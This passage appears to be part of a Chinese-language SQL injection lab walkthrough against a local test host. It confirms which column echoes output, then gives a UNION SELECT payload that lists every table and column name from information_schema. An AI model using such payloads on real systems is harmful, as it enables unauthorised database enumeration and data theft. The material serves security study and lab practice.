         返回结果：<br>
        ![](hx_1.PNG)
        ![](hx_2.PNG)
        说明存在回显且回显位置为第二列<br>
    - ##### 利用information_schema数据库将所有数据表和数据表列名称显示在页面上
        ```
        http://10.0.2.7/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns
        ```